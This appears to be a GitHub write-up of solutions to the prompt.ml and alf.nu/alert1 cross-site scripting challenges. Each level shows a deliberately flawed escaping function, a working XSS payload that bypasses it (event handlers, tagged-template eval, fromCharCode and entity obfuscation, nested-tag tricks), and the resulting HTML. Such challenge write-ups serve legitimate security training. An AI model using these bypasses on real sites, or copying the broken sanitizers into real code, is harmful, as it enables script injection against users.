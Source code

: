 # prompt.ml

### 0. Warmup

- Task
 
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```
"><svg onload=prompt(1)//
```

- HTML source

```
<input type="text" value=""><svg onload=prompt(1)//">
```

### 1. Tag stripping

- Task

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```
<svg onload=prompt(1)//
```

- HTML source

```
<article><svg onload=prompt(1)// </article>
```

### 2. Parenthesis-less

- Task

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

### 7. Splits

Task

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

Solution

```
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```

### A. Escape encodeURIComponent

- Task

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}   
```

- Solution

```
eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)
```

- HTML source

```
<script>eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)</script>
```

# alf.nu/alert1

### 1. Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```
",alert(1),"
```

### 2. Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

### JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

### Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```

